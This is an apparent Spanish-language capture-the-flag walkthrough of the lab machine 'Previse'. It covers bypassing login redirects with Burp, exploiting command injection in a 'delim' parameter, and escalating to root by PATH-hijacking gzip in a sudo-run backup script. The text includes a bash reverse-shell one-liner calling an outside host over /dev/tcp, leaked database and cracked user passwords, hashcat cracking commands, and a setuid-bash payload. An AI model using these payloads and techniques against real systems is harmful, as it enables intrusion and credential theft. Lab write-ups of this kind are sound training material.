# Previse



Launchpad: Bionic

```bash
sudo nmap --script http-enum 10.129.95.185 -p80
```



```bash
whatweb http://10.129.95.185
```

http://10.129.95.185 [302 Found] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.95.185], Meta-Author[m4lwhere], RedirectLocation[login.php], Script, Title[Previse Home]
-
Shttp://10.129.95.185/login.php [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.95.185], Meta-Author[m4lwhere], PHP, PasswordField[password], Script, Title[Previse Login]
Apache[2.4.29]
Meta-Author[m4lwhere] ¿?
php

- Gobuster




Hay un detalle muy importante, cuando se aplica una redirección (302) hacia login.php y el tamaño size es variante, significa que hay contenido que se muestra pero se fuerza el redireccionamiento. Intentaremos interceptar la solicitud forzando un 200 en lugar de un 301

- /files.php -> login.php
- /header.php -> vacío
- /nav.php



Todo redirecciona al login
- /footer.php -> nada
- /status.php -> login.php
- /js -> nada
- /logout.php -> login.php
- /accounts.php -> login.php
- /logs.php -> login.php
- /config.php -> vacío

- Jugamos con alguna inyección en el login
Content-Lenght: 2287
No parece haber sqli o nosqli

- Vamos a buscar alguna vulnerabilidad de la versión desactualizada de *Apache 2.4.49*
Vemos posibles paths traversal pero no aplican a priori

- Intentamos buscar alguna vulnerabilidad de la versión desactualizada de *OpenSSh 7.6*
Intentamos varios exploits pero nada

- Al capturar con burpsuite la respuesta al pinchar en los enlaces de */nav.php* que redirecciona hacia *accounts.php*, *files.php*, *status.php* y *file_logs.php*



- En /status.php



- En /file_logs.php



- En /files.php vemos una rhchivo que parece de backup,



si inspeccionamos el código vemos un *download.php* con *?file=32* para descargar ese archivo, intentaremos descargarlo



Además vemos un usuario **newguy** -> probamos passwds como newguy o admin pero no son correctas

- A priori la url de descarga será http://10.129.95.185/download.php?file=32
No muestra nada, vamos a intentar por fuerza bruta un script que analice si algun "file" da respuesta



- No conseguimos encontrar ningún archivo a priori

- Vamos a intentar actuar con las páginas "ocultas" forzando con burpsuite que para las respuestas que lleguen *302 Found* directamente nos ponga un *200 OK* de esta forma veremos el conteido.
Para eso en Proxy vamos a ajustes -> Tools -> Proxy -> HTTP match and replace rules



- Ahora cuando buscamos /status.php por ejemplo, burp automáticamente en la respuesta nos pone un 200OK



Cuando buscamos en la web



- Vemos que no podemos descargar igualmente el archivo
Intentaremos logearnos porque igual para descargar el archivo hace algún tipo de validación a nivel de cookie de sesión
Conseguimos crear el usuario qarlg:qarlg



- Nos intentamos logear SIN el burp ahora, y conseguimos logearnos en la web.
Intentaremos descargar ahora el archivo de backup y nos deja



- Buscamos credenciales
```bash
grep -RiI pass
```



Posibles
root:mySQL_p@ssw0rd!:)
$1$🧂llol$

- En login.php vemos que se filtra una especie de salt con el que se encripta la contraseña del usuario para hacer la comprobación del login



- Vemos en *logs.php*



Que se ejecuta un comando en el sistema sin ningún tipo de sanitización en el parametro 'delim'

- Podemos inyectar un comando por sistema con
```bash
; whoami
```

por ejemplo

Interceptamos la petición por burpsuite y nos enviamos un ping



```bash
sudo tcpdump -i tun0 icmp -n
```



Tenemos RCE

- Nos lanzamos una shell con
```bash
delim=comma; bash -c 'bash -i >%26/dev/tcp/10.10.14.96/443 0>%261'
```

www-data

## Escalada

Antes de enumerar nada probamos las credenciales de sql que encontramos en config.php porque huele raro
```bash
mysql -u root -p
```

mySQL_p@ssw0rd!:)
mysql

```
select username,password from accounts;
```

Vemos credenciales encriptadas del usuario m4lwhere



$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

Parece un md5crypt
Principales hashes en unix cry p()



```bash
hashcat -h | grep md5
```


- Modo 500

- Intentamos crackear la passwd
```bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```

ilovecody112235!
```bash
su m4lwhere
```

m4lwhere

```bash
sudo -l
```

Vemos un script que se ejecuta con cron como root */opt/scripts/access_backup.sh*
Además en esa carpeta hay un *log_process.py*



Se zipean los archivos */var/log/apache2/access.log* y */var/www/file_access.log* en **/var/backups/nombre**
Siendo nombre





En /var/backups vemos dos archivos backups que nos pasaremos a nuestr máquina por /dev/tcp/IP/PORT para investigar
*2021Jun17_access.gz* y *2021Jun17_file_access.gz*
No vemos nada interesante a parte de logs provocados por nosotros

- vemos que en el archivo ejecutado por root en el proceso cron *access_backup.sh* se utiliza el comando **gzip** sin utilizar el path completo, por lo que se podría intentar un path hijacking
Podremos alterar la variable PATH para que busque en el directorio donde creemos nuestro binario *gzip* y a ese binario meterle un `bash -p`
```bash
cd /tmp
nano gzip
```

```bash
chmod u+s /bin/bash
```

-> Dentro del script *#!/bin/bash*
```bash
chmod +x gzip
export PATH=/tmp:$PATH
echo $PATH
```



Ejecutamos con sudo el script
```bash
sudo /opt/scripts/access_backup.sh
```

root
